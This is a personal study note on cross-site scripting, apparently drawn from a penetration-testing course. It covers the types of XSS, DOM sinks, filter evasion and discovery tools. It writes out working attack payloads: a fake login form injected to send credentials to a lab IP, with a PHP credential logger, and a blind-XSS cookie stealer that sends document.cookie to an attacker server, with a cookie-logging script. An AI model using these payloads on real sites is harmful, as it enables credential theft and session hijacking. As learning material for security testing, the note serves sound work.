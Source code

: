 ## Intro To XSS

XSS is a type of vulnerability that takes advantage of a lack of user input sanitiszation to write and execute Javascript code. Due to how Javascript works, the XSS is executed on the side that loads the webpage (whether it's a client, somebody who opens a compromised page, or so on)

XSS has a limited scope - it can only execute JavaScript code in the browser. You cannot directly root or get a shell on a box easily with XSS. It can be used to enumerate data, modify webpages, steal cookies, and so on

```
Stored (Persistent) XSS 	The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)

Reflected (Non-Persistent) XSS 	Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)

DOM-based XSS 	Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)
```

## Stored/Persistent XSS

This is the most critical type of XSS. Our playoad gets stored somewhere, and gets retrieved/executed upon visiting the page. If we embed a cookie stealer on a comment page, we can steal cookies of anyone who visits the website.

We can use a test payload (generating an alert) to see if we can execute JavaScript code. This is easy to spot when our exploit works.

```
<script>alert(window.origin)</script>
<script>print()</script>
<script>alert(document.cookie)</script>
```

It's important to note that modern web development uses IFrames to handle user input, which limits the scope of XSS to the iframe, rather than the main web application.

## Reflected XSS

Occurs when our payload reaches the back-end server and gets reflected back to us.

A good example of how to use this is creating a phishing link. We create an exploit that works on our end the one time (ie, grabbing a cookie and sending it to a web server). This creates a GET link, that when clicked, will load the page and execute the XSS. We can view our HTTP history to grab the GET request that worked.

![xss-1](xss-1.png)

```
<script>alert(document.cookie)</script>
```

## DOM XSS

Occurs when JavaScript is used to change the page source through the Document Object Model, or DOM.

DOM XSS has two parts: the source (the object that takes the user input, like an input field or a URL parameter), or a Sink (the actual function that modifies the DOM)

Some common JS functions to modify the DOM are:

```

    document.write()
    DOM.innerHTML
    DOM.outerHTML


    add()
    after()
    append()
```

## Filter Evasion

If the ```<script>``` tag is not allowed, we can find other ways to execute JavaScript, like so:

```
<img src="" onerror=alert(window.origin)>
<img src="" onerror=alert(document.cookie)>
```

## XSS Discovery

Web application culnverability scanners like Nessus, Burp Pro, and ZAP have automated detection for XSS.

XSS Strike, Brute XSS, XSSer are tools that can be used to test for XSS.

We can also use manual payloads, like

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md

https://github.com/payloadbox/xss-payload-list

## XSS Attacks - Defacing

We can use JavaScript through XSS to manipulate HTML elements of the DOM to make it look different.

```

Background Color document.body.style.background
Background document.body.background
Page Title document.title
Page Text DOM.innerHTML

<script>document.body.style.background = "#141d2b"</script>
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
<script>document.title = 'HackTheBox Academy'</script>
<script>document.getElementById("todo").innerHTML = "New Text"</script>


```

## XSS Attacks - Phishing

We can use XSS such that when a target clicks a link, the XSS is activated and sends data somewhere (like writing to a web server).

So, we can include an XSS payload the writes to the DOM when it's executed, creating some elements. When the user submits the login form, it will send a get request to our IP, with the data.

```document.write('<h3>Please login to continue</h3><form action=http://10.10.14.49><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');```

Note in order for this to work, we need to have a listener on our IP address for the specified port. We can use a basic PHP script to handle the requests. We use this XSS payload to create a phishing URL. We then copy the GET request URL of the successful XSS, and throw it at the victim. We will recieve the web traffic with the information.

index.php
sudo php -S 0.0.0.0:80
```
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

## XSS Attacks - Session Hijacking

Blind XSS is a type of XSS where code is executed on a page we do not have access to, such as:

```

    Contact Forms
    Reviews
    User Details
    Support Tickets
    HTTP User-Agent header

```

We can use the previous trick to have XSS that makes calls back to our server. An easy way of doing this is providing a remote script.

```<script src="http://10.10.14.49/exploit.js"></script>```

The core of subject hijacking is similar to phishing, but we have less user input required (ie we steal their cookie via a cookie stealer.)

myBlindXSSscript.js

```
new Image().src='http://10.10.14.49/index.php?c='+document.cookie
```

XSS Payload
```
<script src=http://OUR_IP/script.js></script>
```

index.php
```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
sudo php -S 0.0.0.0:80